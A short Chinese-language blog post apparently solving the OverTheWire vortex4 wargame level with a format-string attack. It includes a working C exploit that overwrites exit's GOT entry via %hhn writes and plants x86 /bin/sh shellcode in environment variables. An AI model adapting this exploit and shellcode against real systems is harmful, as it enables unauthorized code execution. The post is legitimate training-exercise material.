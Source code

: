 ```yaml
---
title: vortex4
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

format string。由于还是exit，所以与上题一样，修改got.

由于argc必须为0，所以要另外写一个c程序，用exec。我们把argv设为{NULL}, 要修改的地址放到envp[0], shellcode放到envp[1], format string放到envp[2]。这样printf就会打印envp[2]

还是用寻找A的方式，大概确定了format string的内容大概是第98个参数。exit在plt的地址是0x0804a008，经过一番调整，确定了各个环境变量的长度，然后确定SHELLCODE的地址和format的具体形式。

代码如下

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env1="\x08\xa0\x04\x08\x09\xa0\x04\x08\x0a\xa0\x04\x08\x0b\xa0\x04\x08";
    char *env2="SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *env3="%155x%97$hhn%64x%98$hhn%32x%99$hhn%100$hhn";
    char *argv[] = {NULL};
    char *envp[] = {env1, env2, env3, NULL};
    execve("/vortex/vortex4", argv, envp);
}
{% endhighlight %}
